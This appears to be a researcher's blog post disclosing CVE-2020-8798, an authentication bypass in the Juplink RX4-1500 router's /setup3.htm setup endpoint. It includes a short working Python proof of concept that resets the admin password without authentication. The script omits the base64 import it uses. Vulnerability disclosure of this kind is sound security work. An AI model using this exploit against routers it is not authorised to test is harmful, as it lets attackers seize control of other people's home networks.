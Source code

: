 ```yaml
---
year: 2020
cveid: CVE-2020-8798
title: CVE-2020-8798
product: "Juplink RX4-1500"
vulnerability: "Incorrect Access Control"
publish: true
category: bugs
layout: bug-report
---
```



This vulnerability is an authentication bypass in the Juplink RX4-1500 router. The vulnerability is still present as of version 1.0.5, but the vendor has not patched it. I have decided to release the vulnerability more than 120 days after the initial disclosure as incentive to patch this critical vulnerability.

he vulnerability allows for malicious users to submit POST data without authentication to <kbd>/setup3.htm</kbd>. Attackers can arbitrarily change the admin password, Wi-Fi SSID, Wi-Fi password, and many other configuration variables. Until version 1.0.3, this allowed for an attacker to remotely execute linux system commands as an attacker could enable the debugging telnet interface.

The critical bug is part of an endpoint that is accessed as the router runs through its setup wizard. Unfortunately, the manufacturers of the router do not have a condition checked if the router has already been configured, and thus, requests to this endpoint will always succeed.

This can be demonstrated through the following Python3 script:
```python
#!/usr/bin/python3
import requests

# The admin password
ADMIN_PWD = "admin"

# Address of the vulnerability
addr = "http://192.168.0.1/setup3.htm"

# Set parameters
params = \
{
    'a': 'set',
    'x': 'Device.X_BROADCOM_COM_LoginCfg.',
    'AdminPassword': base64.b64encode(ADMIN_PWD.encode("utf-8"))
}

# Send post request
resp = requests.post(addr, params)
```

For more information and vulnerability analysis, please see [my report on the Juplink RX4-1500]({{"/assets/reports/report_juplink.pdf" | relative_url }}).

